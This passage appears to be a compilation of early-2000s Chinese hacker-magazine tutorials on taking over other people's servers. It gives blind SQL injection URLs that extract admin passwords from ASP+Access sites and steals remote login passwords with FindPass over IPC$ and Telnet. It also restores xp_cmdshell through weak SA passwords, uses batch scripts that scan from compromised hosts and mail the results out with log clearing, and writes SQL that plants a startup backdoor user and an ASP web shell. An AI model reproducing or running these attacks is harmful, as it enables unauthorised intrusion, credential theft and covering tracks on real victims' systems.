aclass、anclass 这两个表是存放文章的分类。上面的 list 代码就是从这些表名中选出你要看的文章的所有信息。像图 2 中的 articleid 有 102 的话，就是 list.asp 代码中的 `id=102`，那么我们看到的情形如图 4。

打开后就是一篇文章，题目是“Damware NT Utilities 使用心得”，属于技术文库，articleid 代码是 102，这些信息你在 article.mdb 中全可以找到。

但程序编写者在这里肯定不会暴露 admin 表的内容。通过查看 list.asp 的源码，可知动网作者没有限制 id 的属性，即图 4 中 IE 地址栏里 `http://192.168.1.3/wz/list.asp?id=102` 中的 102 我们可随便改成别的，改成 56 或 33、47，它会显示另一篇放在数据库里的文章；但我们在后边加个条件成真的等式（如 1=1 或 2=2），将其值放在 SQL 语句查询，URL 改成 `http://192.168.1.3/wz/list.asp?id=102 and 11=11`（图 5），就会出现错误页面。


此“Damware NT Utilities”，是一个类似资源管理器的界面，可不是 Dameware Mini Remote Control，也不是 Dameware NT Utilities Exporter.


> LOOK 注意：我测试了很多动网文章系统，出现错误的形式并不同，有的是正常显示文章后再在尾部出现 0x800a000d 错误，还有的是只出现一个错误。我们再在后边加一个条件不成真的等式（如 1=2 或 2=3），将其值放在 SQL 语句里查询，URL 改成 `http://192.168.1.3/wz/list.asp?id=102 and 1=2`，看看会显示什么，如图 6。


看到没有，出现的是没有找到相关文章的页面。这里我们发现一个规律：只要 `id=102` 后加个条件不成真的等式，肯定就会出现图 6 那样没有找到相关文章的页面。如果出现 0x800a000d 错误或别的表现形式（比如图 5 那样），就说明 `id=102` 后跟的是一个条件成真的等式。

再来跟我学一条 SQL 语句和一个函数。就一条语句和一个函数的利用，我们就可以得到动网文章的密码，很简单的。看图 3，表名是 admin，字段名分别是 id、username、password、flag。id 就是自动排列的序号，username 和 password 你一看就明白，flag 是程序编写者设定的用户等级。1 表示超级用户，2 是管理员，3 是普通用户，具有不同的权限。

明白了表的结构，我们来学这条 SQL 语句：`select id from admin where flag=1;` 意思是从 admin 表中选出 flag=1 的 id 值，从图 3 得知 flag 是 1 的 id 值是 11，即这条语句的值就是 11。当然，这条语句还可推延一下，如 `select id from admin where password=123` 或 `select username from admin where password=123`，意思分别是

## 一个人的战争

是选出 password=123 的 id 值和选出 password=123 的 username 的值，明白了吧！和英语语句很像的。

再一个函数就是 left()。如 left(lcx,1) 就表示从字段 lcx 中选出左边第一个字符，是 l。left(lcx,2) 就表示从字段 lcx 中选出左边两个字符，是 lc。

准备工作做完了，我们开工吧！先构造一个 SQL 语句，来判断动网文章数据库中 admin 表第一个管理员的 id 值（因为有的动网文章系统管理员不止一个，图 3 中只有一个）。我们来提交这样的语句：

```text
http://192.168.1.3/wz/list.asp?id=102 and 1=(select min(id) from admin where flag=1)
```

啊！这里好像漏了一个函数 min()，就是最小值的意思。从图 3 得知，admin 表里 id 最小值是 11，所以 select min(id) from admin where flag=1 应当是 11，所以这条语句变成了：

```text
http://192.168.1.3/wz/list.asp?id=102 and 1=11
```

根据我们已发现的规律得知，这里的网页就应当显示没有找到相关文章了（图 7）。


我们换个试，直至将这条语句的 1 改成 11，语句变成：

```text
http://192.168.1.3/wz/list.asp?id=102 and 11=(select min(id) from admin where flag=1)
```

结果就是：

```text
http://192.168.1.3/wz/list.asp?id=102 and 11=11
```

结果会是什么呢？如图 8。


出现错误了。这说明第一个管理员的 id 值就是 11。得到最小的 id 值后，我们再来破译密码。构造语句如下：

```text
http://192.168.1.3/wz/list.asp?id=102 and 11=(select id from admin where left(password,1)='x')
```

解释一下，语句中的 11 是我们先前判断出来的第一个管理员的 id 值。select id from admin where left(password,1)='x'，指的是在 admin 表中，将密码第 1 位是 x 的 id 值找出来。在 SQL 语句中，不是数字的值要用单引号引起来，其中 x 的值是自己随便写的。我们指定 x 的值为 2 来试试，很明显，在图 3 中我们看到 password 的值是 123，left(password,1) 应当等于 1；那么 select id from admin where left(password,1)='2' 自然是没有这样的 id 值的。于是 list.asp? 后面除了跟的 id=102 外，还有一个条件不成真的等式。所以显示没有找到相关文章，这说明密码第 1 位不是 2。


我们用 select id from admin where left(password,1)='1' 来试试。哈，出现错误了（图 10）。


这说明 id=102 后跟的是一个条件成真的等式，第一个管理员的第一位密码就是 1。猜对了第 1 位，我们再来猜第 2 位。仔细看这条语句：

```text
http://192.168.1.3/wz/list.asp?id=102 and 11=(select id from admin where left(password,2)='1x')
```

我们将 x 的值改为 2 来试试，如图 11。


又出现错误了，说明前 2 位密码就是 12。我们一一推算下去，很快就能得出密码是 123。其中 left(password) 函数你还可改为 len(password) 函数，用下面的 URL 先判断密码长度：

```text
http://192.168.1.3/wz/list.asp?id=102 and 11=(select id from admin where len(password)='num')
```

你还可以自己去学一下 asc() 和 mid() 函数，用它能很快推算出密码的键盘范围，快速得出密码值。总之一句话，无论你构造的是什么 SQL 语句或写入的什么函数，只要页面没有找到相关文章，就说明在这条 SQL 语句中密码不是你设定的值，id 后跟的是一个不等式。如果显示其它的，就说明你猜对密码了，id 后跟的是一个等式。同样的道理，你将 SQL 语句中的 password 改成 username 就能换个推算出管理员的用户名。

### 实例破解二——盗帅下载系统 1.0

我们再来破解盗帅下载系统 1.0 来试试，先看 show.asp 源码：

```text
sql="SELECT * FROM download where id ="&request("id")
```

这条语句现在明白了吧！从 download 表中找出 id=* 的软件。同样在 show.asp 文件中没有过滤用户提交传递给 SQL 查询的输入，导致远程攻击者可利用这个漏洞进行 SQL 注入攻击。

它的数据库里，download 表存放的是要下载的软件信息，而 admin 表存放的是系统管理员信息。admin 表有四个字段，分别是 id、admin、pws、regsex，分别存放的是管理员序号、用户名、密码值及性别识别。regsex=0 指管理员是男性。我们也同样发现一个规律，如果在 show.asp 后边跟一个不等式，会出现找不到该软件的页面；如果出现其它的，就表明 show.asp 后边跟的是一个条件成真的等式。

和动网文章一样的方法，我们来判断第 1 个管理员的 id 值，语句是这样的：  
`http://ip/down1.0/show.asp?id=2 and x=(select min(id) from admin where regsex=0)`

其中 x 的值可随便写，id=2 指的是可正常显示软件信息的页面。和上文写的动网文章对照一下，一样吧！自己试验一下就明白了，如果显示找不到该软件，就说明你写的 x 值不是第一个管理员的 id 值；显示其它的就表示你猜对了第一位管理员的 id 值。

假定这里我们已得到第 1 个管理员的 id 值就是 1，我们再来猜密码。用下面的语句来猜密码：  
`http://ip/down1.0/show.asp?id=2 and 1=(select id from admin where left(pws,x)='x')`

要注意的是，因为盗帅下载系统的 admin 表存放密码的字段是 pws，所以 SQL 语句里也要写 pws。先看一下我猜错密码的情形，我在本机测试的，用的 URL 是：  
`http://192.168.1.3/asp/d1/show.asp?id=2 and 1=(select id from admin where left(pws,1)='1')`

如图 12 所示显示没有该软件，表明密码第 1 位不是 1。再来看一下我猜对密码的情形，用的 URL 是：  
`http://192.168.1.3/asp/d1/show.asp?id=2 and 1=(select id from admin where left(pws,2)='ad')`


如图 13 所示，正常显示了软件信息（不是显示没有该软件的页面），表明密码我猜对了，头两位就是 ad。


### 三、总结

通过以上两例 SQL Injection 分析，你应当学会一种通用的 SQL Injection 攻击方法，那就是 SQL Injection with Access 的跨表查询。

其工作流程可定义为：入侵的对象是 asp+access 程序，其递交 SQL 程序页面特征是一个带数字参数的 ASP 页面，像这样：http://url/target.asp?id=num。入侵的手段是先下载一个你要入侵的 web 程序同样的脚本，分析带数字参数的 ASP 页面有没有对参数也就是 num 过滤用户提交传递给 SQL 查询的输入，打开数据库，熟悉其各个表的结构，然后精心构造跨表查询的 SQL 语句，在 id 后写入条件成真或不成真的等式，根据返回信息不同来判断猜的密码是否正确。

有人可能要说，一个个地这样猜用户名和密码不得累死？如果对方密码是 16 位，又是用不同的字母或别的 ASCII 字符，你可能一猜就要猜到天亮了。是呀！这时就需要编程高手来编写程序实现 SQL Injection 攻击了。所以说，要做 hacker，不学编程是永远不行的，并且只学一门语言也是不可取的。我这里有 wawa 写的一个攻击动网文章数据库的脚本和我根据这个脚本改的攻击盗帅下载 1.0 的脚本（2.0 我没有源码，没有分析）。用法很简单，先打开一个动网文章系统，找到一个正常显示文章的页面（如图 4）。然后在 DOS 下运行 dvtxt.pl 命令，就是这样：`dvtxt.pl 27.0.0.1 /txt/list.asp 53 "没有找到相关文章"`。

> **LOOK 注意**  
> 由于是 perl 脚本，你本机需要装一个 perl 解析器。

看看我运行的命令吧，如图 14。等一会程序运行结果就出来了，如图 15。


盗帅下载入侵脚本和这个类似，你可以自己下载去试试！这两个脚本在光盘里有收录，也可以到 http://www.netsill.net/lcx/sql-access.rar 下载。由于我在攻击盗帅下载程序中指定的参数是 regsex=0，所以我的脚本只能推测出管理员是男生的密码，女生管理员我的脚本可探测不出！我相信如果你读通了这篇文章，明白了跨表查询的原理，也可根据 wawa 的脚本来改写出一个 SQL Injection with Access 的跨表查询攻击程序。祝你好运！

## 一个人的战争

### 获取远程主机的当前用户密码

近墨者

其实我也是一个菜鸟，不过是只不安分的小鸟。昨天，从网上下载了孤狼望月的“利用 FindPass.exe、pulist.exe 获取其他账户密码”动画教程，看后很受启发。他所讲的是在本机上获取当前用户的密码，能不能获取远程主机当前用户的密码呢？经过几次尝试以后是可以的，现我将获取过程与各位菜友们分享。

#### 1. 原理

先说一下 FindPass 是如何得到当前用户密码的！当用户以图形界面方式登录系统，登录的域名和用户名是明文存储在 Winlogon 进程里的，而 FindPass 就是利用 Winlogon 的 PID 号和正确的域名，在内存中寻找加了密的内存块（保存着加密过的登录密码），然后对它进行解密，这样就能得到该用户的密码。

#### 2. 工具

知道了原理，下面我们就开始动手吧！在动手前先准备齐工具（别误会，不是去打劫！^_^）。它们是：

- (1) OpenTelnet.exe（开启远程主机 Telnet 服务的工具）
- (2) ResumeTelnet.exe（关闭远程主机 Telnet 的工具）
- (3) Pulist.exe（获取主机用户登录的域名和用户名，及 Winlogon 进程 PID）
- (4) FindPass.exe（获取当前登录用户的密码）
- (5) 其他还要准备一个扫描工具，如流光、X-way、X-Scan 等都是不错的扫描工具。功能强大，容易上手，非常适合我等使用。
- （以上工具光盘中有收录）

#### 3. 开工

闲话少说，直接进入主题。图 1 是我用流光找到的一个有管理员弱口令的主机，管理员为 posgroup3，密码为空。因为要得到远程当前用户的密码，就要在远程主机中运行 Pulist.exe 和 FindPass 程序，所以要有一个具有管理员权限的用户。要得到有管理员权限的用户，可通过扫描对方其他管理员的弱口令或用对方存在的一些漏洞添加管理员用户的方法。这方面的知识请参阅其他高手们的介绍，这里不再赘述。

接着打开本机的 CMD.exe，用得到的管理员用户同对方建立 IPC$ 通道连接，如图 2。

然后在本机“运行”中输入：`\\对方IP\C$`，如图 3。稍待片刻即打开了对方的 C 盘，将准备的工具“Pulist.exe”与“FindPass.exe”复制到对方的 C 盘中（图 4），先将对方的 C 窗口最小化，因为待会儿还要用到。

> **注意**  
> 用这种方式复制文件非常直观，但如果这时对方关机，会出现“有一位用户连到本机，关机将断开连接”之类的提示，很容易被发现，所以要拜托对方千万不要在此时关机！


在 CMD.exe 中将路径切换至存放 OpenTelnet.exe 的文件目录下，运行 OpenTelnet.exe，打开对方的 Telnet 服务。此命令的格式是：

`OpenTelnet.exe \\对方IP 用户名 密码 验证方式 要打开的连接端口`

其中验证方式可为 1 或 0，打开的连接端口自定义，但不能是对方已开启的端口，如图 5 所示。


图 5

稍片刻会出现成功提示，接着输入：**Telnet 对方IP 打开的端口**，打开 Telnet 连接窗口，输入已知用户名及密码（图 6）。


图 6

稍等一会儿会弹出 Telnet 窗口，显示连接到对方主机，在其中输入：**dir c:\\**，那么 Telnet 窗口就会回显对方 C 盘中的内容。瞧见没有？图 7 中刚才复制的两个工具还在静静地待命！


图 7

在 Telnet 窗口中运行：**Pulist.exe >c:\pos.txt**（图 8），意思是将 Pulist.exe 的返回值输入到对方 C 盘下的 pos.txt 中，“>”符号是在 C 盘下新建一个名为 pos 的文本文件。为什么要这样做？因为如果对方此时运行了很多程序，那么在 Telnet 窗口中就看不到 Winlogon 的 PID 号，而将 Pulist 的返回值输入到文本中，那么打开文本就能看到 Pulist 的所有返回值。


图 8

打开刚才最小化的对方 C 盘窗口，会发现其中新增了一个 pos.txt 文件（图 9）。


图 9

打开 pos.txt，这里我将其中的内容进行了调整，只显示了需要的项。从图 10 中可以看出，对方的 winlogon.exe 的 PID 号是 184，对方的登录域是 SERVER，对方的当前用户是 Administrator。好家伙！对方现在登录的竟然是 Administrator 管理员！


图 10

接着，我在 Telnet 窗口中运行 FindPass 程序，该程序的格式是这样的：

`FindPass.exe 登录域 当前用户名 winlogon 的 PID 号`

我们输入得到的各项，回车后稍待，哈哈！读出了 administrator 的密码是 800*860&5718（图 11）。


图 11

好！大功告成，不要忘了清理一下战场，否则对方看到 C 盘下这些文件岂不露馅。在 Telnet 窗口中用 del 命令删除这两个工具和一个文本文件 pos.txt，并结束同对方的连接，如图 12 所示。


图 12

回到本地的 CMD.exe 中，运行“ResumeTelnet.exe”程序，关闭刚才打开对方的 Telnet 服务：

`ResumeTelnet.exe \\对方IP 用户名 密码`

如图 13 所示，我们已成功关闭了对方的 Telnet 服务。


图 13

讲了这么多，不知各位菜鸟听懂没！但那种成功获取对方密码的感觉，怎么说呢！一个字——爽！

## 一个人的战争

### 对 SA 的权限突破

青野志狼

从以前的 MSSQL 密码被探测（被 global.asa 泄露）到前段时间的 SQL Server UDP Buffer Overflow（今年年初的 SQL 蠕虫王就是利用了这个漏洞），可知 MSSQL 的漏洞不少吧！而我这次要讲的并不是新的漏洞，而是对 SQL 用户 SA 的权限突破。

前几天由于某种原因，对一个网段进行了扫描，竟然扫到了 SQL 的 SA 用户弱密码，可想而知，应该很容易拿到权限吧！如图 1。


顺手拿出了 SQLEXEC 进行连接，连接上后执行命令 dir，竟然出现错误（图 2）。


初步估计应该是某位黑客所为，因为如果是网管，他可以把 SA 的密码设置得特别强悍，而这台主机却不是这样，而是删掉了 SA 的 xp_cmdshell。很明显入侵者是为了不被网管发现，而又不会被其他入侵者入侵而做的防护。既然他把 xp_cmdshell 去掉了，我们就给他加上，当然前提是你装了 SQL SERVER，可以用查询分析器来执行 SQL 语句。所以我就上了跳板，因为肉鸡上有 SQL SERVER，呵呵，比较方便啦！而且不容易被追踪到。打开查询分析器（SQL Query Analyzer），如图 3。


在 SQL SERVER 中填入对方 IP。由于我们只知道对方的 SA 密码，所以是用“SQL SERVER 的身份验证”，填完用户名和密码后连接，如图 4。连接好后在空白的地方我们就可写要执行的 SQL 语句了。先说一下关于去掉和添加 xp_cmdshell 扩展过程的 SQL 语句。去掉 xp_cmdshell：


```sql
if exists (select * from dbo.sysobjects where id=object_id(N'[dbo].[xp_cmdshell]') and OBJECTPROPERTY(id,N'IsExtendedProc')=1)
exec sp_dropextendedproc N'[dbo].[xp_cmdshell]'
```

添加 xp_cmdshell：

```sql
sp_addextendedproc xp_cmdshell, @dllname='xplog70.dll'
```

我们输入刚才那条添加 xp_cmdshell 的语句，然后执行（图 5）。


执行完后，底下将显示“命令执行完成”。现在我们就可再用 SQLEXEC 连接了，尝试执行 cmd 命令（图 6）。


现在我们可执行任意命令了，习惯性地添加了一个超级用户（为登录终端做准备），用 net start 看了一下，如图 7。

对方开了 Terminal Services，呵呵，我比较喜欢这个（又省事了，要不然给对方重启还真不太好，主要是容易被发现），然后拿 xp 的终端连接，连接失败！又试了几次还是同样的结果。然后又执行了一下 netstat -an，找了找，没有 3389，估计这又是那个入侵者的杰作了。没关系，我们不惧他，继续！用 Tftp 上传了一个 fport，如图 8。


fport 可查看和端口绑定的程序（图 9）。


图 9 中被反色显示的那行就是 Terminal Services 的端口和程序，从名字上很容易判断出来。原来被改成 3549 了，继续用 xp 的终端连接（图 10）。

> **小知识：**WinXP 的终端连接器不需要像 Win2000 的终端连接器那样需要修改端口，我们只需在输入框中输入 61.22.22.22:3549 即可，这句话的意思就是连接 61.22.22.22 的 3549 端口。


好了，其他善后工作就不用我说了吧，比如擦 PP、清除其他入侵者的后门（较常见的是账户和服务），顺便把漏洞补上（我们经常免费给人家服务的，呵呵）。然后留个后门，走人。

很多人认为只要把 SA 的 xp_cmdshell 去掉，即使被别人拿到 SA 也不会对自己造成影响，很明显这种想法是错误的，看一下我们上面的结果就知道了。所以，网管们还是要把 SA 的密码复杂度设置强点，如果不需要使用 xp_cmdshell，那就把 xplog70.dll 删除或改名（请勿使用本文所介绍的技术进行破坏，否则后果自负）。

## 一个人的战争

### E-mail 在入侵中的妙用

### 欲望之翼

> **题记**  
> 上网的朋友都收发过 E-mail 吧！如果有一天发现你的邮箱多了一个扫描结果时，是不是很惊讶呢？大家一定知道流光这个中国最著名的扫描探测软件，其 4.7 版本新增了后台扫描模式，扫描的结果（\*.TXT/\*.HTML）可直接通过附件发送到信箱。这当然是要设置才有了。你可能会想，“如果我用别的扫描器也能把扫描结果发到邮箱的话，那不是很爽？”在网上找了一通我找到一个很满意的工具，下面我就教大家怎么来做。

### 一、流光是如何设置的

选流光的高级扫描功能后就会出现设置窗口，你可选择本地主机或设置好的 sensor。我们选择装在肉鸡上的 sensor，也就是后台扫描模式（图 1）。


图 1

点“选项”出现图 2 所示窗口，现在可以设置了。


图 2

这样设置后，扫描完成就会把扫描结果发到你的邮箱。

### 二、我们需要的工具

- 1. X-Mail。它是基于 SMTP 协议，以“附件”方式发送邮件的单行命令行工具，也可通过“-prompt”参数运行程序，逐步设置各项内容。格式如下：

```text
xmail <SMTP服务器地址> <发件人信箱> <收件人信箱> <待发送文件> [用户名] [登录口令]
xmail -prompt
```

> **注意**  
> [用户名] 和 [登录口令] 需根据 SMTP 服务器是否要求发件人身份验证而设置。对于不需要验证的服务器，用户名和登录口令必须为空，否则必须填合法用户名及口令。  
> 另：一些服务器虽然不需要验证发件人口令，但会对发件人信箱进行简单验证，如使用 smtp.aaa.com，则发件人信箱必须为 mailbox@aaa.com，否则被服务器认为是非法用户而拒绝发送。

例如：我的邮箱地址是 webmaster@longker.com（别炸我哦），smtp 服务器地址是 smtp.longker.com，用户名 webmaster，密码为 desireboy（假的了，呵呵）。我们用 hscan 来扫描，扫描后生成的文件是 HScanReport.htm，那我们的附件就是它了。格式如下：

```text
xmail smtp.longker.com webmaster@longker.com webmaster@longker.com HScanReport.htm webmaster desireboy
```

- 2. 对于远程执行程序和命令大家一定有自己的方法，有人说用 at 命令，有人说用流光的种植者。在此，笔者推荐大家用 pstools 里的 psexec.exe，它是个命令行的 WinNT/Win2000 系统管理工具，相当不错。因为流光太大，种植者没有分离出来，而 At 命令没有效率。

> **注意**  
> psexec.exe 在远程使用时需要管理员权限。

- 3. Hscan0.31.exe。它是个命令行的工具，扫描速度很快，格式如下：

```text
-a <HostName|IP|StartIP-EndIP> —— Scan All
-c [Port] <HostName|IP|StartIP-EndIP> [Thread] —— CGI Scanner
-f [UserName|anonymous] <HostName|IP|StartIP-EndIP> —— FTP Scanner
-p [Port|StartPort-EndPort] <HostName|IP|StartIP-EndIP> —— Port Scanner
-u <URL> <HostName|IP|StartIP-EndIP> —— URL Scanner
```

### 三、思路

- 1. 和肉鸡建立 ipc$ 连接，copy 文件到肉鸡。
- 2. 用 psexec 远程执行命令，启动 hscan 扫描器。
- 3. 把扫描结果作为附件发送到邮箱。

### 四、实现方案

为了更好地增加效率，我们用批处理来实现。先介绍一些基本的批处理知识：

- **echo** 表示显示此命令后的字符。
- **echo off** 表示在此语句后所有运行的命令都不显示命令本身。
- **@** 与 echo off 相像，但它是加在其它命令行的最前面，表示运行时不显示命令行本身。
- **call** 调用另一条批处理文件。
- **pause** 运行此句会暂停，显示 Press any key to continue...，等待用户按任意键后继续。
- **rem** 表示此命令后的字符为解释行，不执行，只是给自己今后查找用的。

> **注意**  
> 如果直接调用别的批处理文件，执行完那条文件后将无法执行当前文件后续命令。

还有一些命令（如 if、goto、choice、for）是批处理文件中较高级的命令，如果这几个你用得很熟练，你就是批处理文件的专家啦，这里就不多介绍了。好了，基本命令讲完，我们来写批处理文件了。先写一个批处理 mail.bat，这个是要传到肉鸡上去的了（注意：因为有的邮箱不支持 htm 附件，所以下面我把它改名了），内容如下：

```bat
@echo off
@internet.exe -p 8535 111.111.111.1-111.112.255.254 -t 200
@rename hscanreport.htm qq.txt /y
@intel.exe smtp.longker.com webmaster@longker.com webmaster@longker.com qq.txt webmaster desireboy
@del mail.bat /y
@del internet.exe /y
@del intel.exe /y
@exit
```

看懂没有呢？我们要扫的是开了 8535 端口（中了孤独者的机器）的主机，然后把扫描结果发到我的邮箱。删除上传的文件 internet.exe（改名后的 hscan）、intel.exe（改名后的 xmail）和 mail.bat 这个批处理。是不是觉得缺了什么？对，清除日志！具体位置在：

```text
winnt\system32\logfiles\*.*
winnt\system32\config\*.evt
winnt\system32\*.log
winnt\system32\*.txt
winnt\*.log
```

大家可以自己加进去，当然也可用 rcls.vbs 等工具来做。讲了那么多，我想大家也会写了吧！然后，我们在本机也写个批处理，方便点，以后还可以用的嘛！

```bat
@echo off
@net use \\%1\ipc$ %3 /u:"%2"
@if errorlevel 1 goto sorry
@echo ipc连接建立……OK
@copy hscan.exe \\%1\admin$\system32\internet.exe && copy xmail.exe \\%1\admin$\system32\intel.exe && copy mail.bat \\%1\admin$\system32\mail.bat
@if errorlevel 1 goto sorry1
@echo 向肉鸡复制文件……OK
:sorry
@echo 建立ipc$连接失败:(
goto end
:sorry1
@echo 复制文件失败，没开默认共享:(
goto end
:end
@net use %1 /del /y
@exit
```

把上面的文件存为 cool.bat，它的功能大家应该知道了，是建立 ipc 连接和 copy 文件。OK！我们已写好了批处理，读者可根据自己的实际情况来写，我这里用的是 hscan，你还可用其他扫描器，我这里主要讲的是思路，下面就实战了。

### 五、实战步骤

好了，万事俱备，不欠东风，那还傻站着干吗呢！哦，原来有小妹妹在旁边呀，决定做一次柳下惠了。在自己的命令行输入：

```text
cool 肉鸡ip 账户 账户密码
```

OK，提示建立 ipc 成功，copy 文件成功了。然后就可用 psexec 来执行了。先建立 ipc 连接，然后这样来：用 psexec \\ip cmd.exe 命令进入肉鸡的 cmd 下，然后执行 mail.bat 就 OK 了。

半个小时后去看看自己的邮箱吧（图 3）！呵呵，收到了吧！


### 六、总结

其实，我们主要讲的不是入侵，而是些入侵技巧。在入侵时如果能使用一些技巧，相信对入侵的帮助很大。同时大家要学会思考，学会利用资源，比如搜索引擎。大家有什么经验也写出来，一起交流交流。有不足之处，请大家补充。本文用到的如下工具光盘中有收录：X-Mail、psexec.exe、Hscan0.31.exe。

## 对 SA 权限的再突破

lcx

在《黑客X档案》2003 年第 7 期中，青野志狼写了篇《对 SA 的权限突破》。该文提到了在知道 SQL 服务器的 SA 用户名弱密码后，而服务器去掉了 SA 的 xp_cmdshell 权限的情况下，如何通过 SQL 命令恢复 SA 的 xp_cmdshell 权限来进行入侵。这样入侵（详情请看原文）的前提是服务器的 xplog70.dll 没有被删除或改名，这一点青野志狼也谈到了，但他没有写在 xplog70.dll 被删除或改名情况下的入侵方法。这里我把曾经在这样的情况下入侵成功的经验介绍给大家。

- 1. 先来看看我对 xx.41.153.190 的扫描结果，x-scan2.3 扫描后的详细漏洞表如下：

```text
[开放端口] 21/80/1433/3389
[sql弱口令] sa(aaa)

[CGI漏洞]
/_vti_bin/fpcount.exe?Page=default.htm|Image=2|Digits=1 [漏洞描述]
/_vti_bin/shtml.dll/nosuch.htm [漏洞描述]
/_vti_bin/shtml.dll [漏洞描述]
/_vti_bin/shtml.dll/_vti_rpc [漏洞描述]
/_vti_bin/shtml.exe [漏洞描述]
```

除了这几个漏洞外，x-scan2.3 再没有扫出别的了，好在有 SQL 弱口令。用 SQL 连接器上去看看吧，可大失所望。dir 命令不能执行，好像是服务器去掉了 SA 的 xp_cmdshell 权限（图 1）。


- 2. 我再用 SQL 的查询分析器来连接 SQL 服务器（图 2），恢复 cmd_shell 权限试试。在 SQL 的查询分析器里写入：**sp_addextendedproc xp_cmdshell, @dllname='xplog70.dll'**，但显示错误（图 3）。


看样子是 xplog70.dll 被改名了。抱着试试看的态度，再用 SQL 连接器连上，执行 dir 命令，依然显示图 1 的情况。

这种情况下怎么办呢？既然有了 SQL 弱口令，而且 SQL 的查询分析器也可连接上，当然也可用它来写些文本程序在服务器上。再打开查询分析器，在弹出文本框里写入以下 SQL 脚本命令（注：以下代码收录在光盘的相关压缩包内，在包内的文件名为 vbs.sql）：

```sql
declare @o int, @f int, @t int, @ret int, @a int
exec sp_oacreate 'scripting.filesystemobject', @o out
-- 给菜鸟加个简单注释，这两行代码是建立sql的文本对象
```

```sql
exec sp_oamethod @o, 'createtextfile', @f out, 'c:\document\alluse~1\「开始」菜单\程序\启动\a.vbs', 1
-- 在启动菜单里写入a.vbs，当然这里只支持中文
exec @ret = sp_oamethod @f, 'writeline', NULL, 'set wshshell=createobject("wscript.shell")'
-- 单引号里的都是a.vbs的内容，要一行一行地写，下同
exec @ret = sp_oamethod @f, 'writeline', NULL, 'a=wshshell.run("cmd.exe /c net user lcx 123 /add", 0)'
exec @ret = sp_oamethod @f, 'writeline', NULL, 'b=wshshell.run("cmd.exe /c net localgroup administrators lcx /add", 0)'
-- a.vbs内容结束
```

执行查询后（图 4），就会在服务器的启动程序里写入一个 a.vbs 脚本。

- 3. 只要服务器重启，就可加入一个用户名是 lcx、密码为 123 的管理员用户。做完这一切后就开始等待服务器重启了，可是等到花儿也谢了，这个用户也没添加成功。我用 lcx 的用户名和密码 123 一直也登录不了 3389 端口。不知是服务器没重启，还是服务器不是中文系统（因为这个 SQL 脚本只支持中文），结果还是被管理员发现了。于是，我回头看了看 x-scan 的漏洞扫描报告，上安全焦点点了一些扫到的漏洞资料，还是一无所获，扫到的漏洞都没有太大的利用价值。思考中，突然灵光一闪，_vti_bin 是个虚拟目录，在 IIS 上默认的物理路径是 C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\40\isapi\，我可在这里用 SQL 的查询分析器写入一个 ASP 程序呀！先看看思路对不对，执行 **http://ip/_vti_bin/**，返回 403 错误码（图 5）。

证明服务器这个虚拟目录是存在的。好了，开始写 SQL 脚本（本想写入海阳顶端木马 xp.net 版，可代码太多了）：

```sql
declare @o int, @f int, ...
```


```sql
@t int, @ret int, @a int
exec sp_oacreate 'scripting.filesystemobject', @o out
-- 给菜鸟加个简单注释：还是建立sql程序的文本对象
............（注：由于代码太长，故省略中间部分，完整代码收录在光盘的相关压缩包内，在包内的文件名为 asp.sql）
exec @ret = sp_oamethod @f, 'writeline', NULL, '<%end if %>'
```

4. 好累，代码终于写完了。然后我将这段脚本放在查询分析器里执行，运气不错，服务器的 IIS 是默认安装的，显示命令成功完成（图 6）。迫不及待地来看看运行结果吧（图 7）！

哈，成功了！忘记告诉你，刚才运行的这段 SQL 脚本，会在 C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\40\isapi\ 这个物理目录下（即虚拟目录 _vti_bin 目录下）生成 lcx.asp 文件，是一个改装的 cmd.asp，密码是 1234。输入密码 1234 后再来看看，得到一个 cmd 的网页 shell 了（图 8）。

虽然权限不是很大，但查看服务器敏感信息、黑掉服务器的网页是绰绰有余的。我就用这个 lcx.asp 在服务器的 C:\Program Files\Microsoft SQL Server\MSSQL\Binn 目录里发现了一个可疑的 xplog701.dll 文件，和原来的文件大小进行比较，果然是个改名的 xplog70.dll。也许有人要说，你可再将名字改回来呀！我也试过，虽然改过名，也需要重启 MSSQL 服务，这个 xplog70.dll 才可以加载。样子我的运气到头了，在这台机器上再没得到太多渗透入侵结果了！

后来我在本机做过测试（我是 w2k+sp3+iis5.0+fat32 系统），在默认安装情况下，一些默认的虚拟目录用 SQL 查询分析器大都是可写的，而且这些默认虚拟目录对应的物理目录都是固定的。除了上文讲到的 _vti_bin 外，还有像 http://ip/printers 对应的是 C:\WINNT\web\printers，http://ip/ 对应的是 c:\inetpub\wwwroot 等。所以平常说的暴露物理路径的危害由此实例可管中窥豹了。


今年 6 月 25 日，微软公布了一个最高严重等级的重要漏洞——Windows Media 服务 nsiislog.dll 远程缓冲区溢出漏洞。这对于广大黑迷来说是一件好事，又有大量的肉鸡储备了，在开始正题之前我先给大家简单介绍一下该漏洞。

### 一、漏洞描述

Microsoft Windows Media Services 是 Microsoft Windows 2000 Server、Advanced Server 和 Datacenter Server 的一项功能，你也可在 Windows NT 4.0 Server 上下载和运行该功能。Windows Media Services 支持一种通过网络将媒体内容传递给用户的方法，即众所周知的多播流。在多播流中，服务器不了解可能接收其媒体流的客户端，两者之间也没有连接。为促进服务器的客户信息日志记录，Windows 2000 中包括了一个专门设计用于启用多播传输日志记录的功能。此日志记录功能是作为 Internet 服务应用程序编程接口（ISAPI）扩展 nsiislog.dll 实现的。当 Windows Media Services 通过添加/删除程序方法安装到 Windows 2000 中时，nsiislog.dll 就被安装在服务器的 Internet Information Services（IIS）Scripts 目录中。安装了 Windows Media Services 后，nsiislog.dll 就会自动加载并由 IIS 使用。

nsiislog.dll 处理传入客户端请求的方式存在缺陷。存在漏洞是因为攻击者可向服务器发送特殊格式的 HTTP 请求（通讯），这会导致 IIS 失败或在用户的系统上执行代码。默认情况下不在 Windows 2000 上安装 Windows Media Services。企图利用此漏洞的攻击者需要知道网上的哪些计算机安装了 Windows Media Services，然后向服务器发出特殊请求。

### 二、受影响系统版本

- Microsoft Windows 2003
- Microsoft Windows 2000 SP3
- Microsoft Windows 2000 SP2
- Microsoft Windows 2000 SP1
- Microsoft Windows 2000

### 三、漏洞利用

相信大家看了以上内容后，会对 Windows Media 服务 nsiislog.dll 远程缓冲区溢出漏洞有个初步的了解。由于该服务不是默认安装的，所以想利用此漏洞必须要有一些条件。首先系统必须安装 Windows Media 服务（图 1）。


